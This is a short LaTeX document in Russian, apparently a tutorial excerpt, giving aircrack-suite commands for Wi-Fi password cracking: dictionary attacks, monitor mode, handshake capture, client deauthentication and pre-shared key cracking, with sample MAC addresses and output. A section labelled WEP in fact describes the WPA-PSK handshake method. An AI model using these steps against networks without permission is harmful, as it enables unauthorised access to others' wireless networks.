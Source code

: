 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsubsection{Атака словарем}
Для начала нужен файл со словарем, его нужно поместить  в директорию с программой aircrack.\\
\verb+aircrack-ng -w wordlist capture_file+\\
wordlist - словарь, capture-file – cap-файл с данными.\\
Происходит перебор паролей. Если пароль не сложный, он сможе быстро подобраться.

Подбор длинного пароля происходит очень долго по времени.
\subsection{Взлом WEP сети}
\subsubsection{Запуск беспроводного интерфейса в режим мониторинга}
Режим мониторинга позволяет слушать все пакеты.
\verb+airmon-ng start wifi0 9+ - перекобчение беспроводной карты на канал 9  в режим мониторинга
\subsubsection{Сбор хендшейков}
Сбор рукопожатий.
\verb+airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk ath0+\\
-c 9 - канал для беспроводной сети\\
--bssid 00:14:6C:7E:40:80 - mac адерс точки доступа\\
-w psk - префикс имени файла вывода\\
ath0 - имя интерфейса.\\
В предыдущем шаге мы увидели подключенного клиента. В другом сеансе консоли введем:\\
\verb+aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 ath0+\\ и получим вывод:\\
\verb+Sending DeAuth to station -- STMAC: [00:0F:B5:34:30:30]+
\subsubsection{Взлом предварительного ключа}
Для этого откроем еще один сеанс консоли и введем туда:\\
\verb+aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap+\\
В файле password.lst хранится список пролей, в группе файлов *.cap содержатся перехваченные пакеты. 
 если хендшейк найден, то aircrack-ng пытается взломать предварительный ключ.
\end{document}
